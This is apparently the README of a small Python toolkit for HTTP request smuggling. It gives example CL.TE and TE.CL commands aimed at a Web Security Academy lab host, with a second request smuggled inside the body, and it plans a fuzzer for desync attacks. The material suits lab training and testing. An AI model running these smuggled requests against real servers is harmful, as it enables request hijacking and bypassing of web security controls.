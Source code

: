 # pyhttpsmuggler
Scripts related to web/request smuggling & general web hacking
## Examples
### CL.TE Vulnerability
python3 pysmuggle.py --host your-access-token.web-security-academy.net --method POST --body-length 35 --body-data "" --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" -- debug 1
### TE.CL Vulnerability
python3 pysmuggle.py --host your-access-token.web-security-academy.net --method POST --body-length 4 --body-data "5c" --smuggled-body-fields "gPOST / HTTP/1.1,Content-Type: application/x-www-form-url-encoded,Content-Length: 15,,x=1,0" --debug 1
## Changelog
### 9/2/2021
Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.

# Todo:
## pyhttpsuggler-cli
### 1
Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
### 2
Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
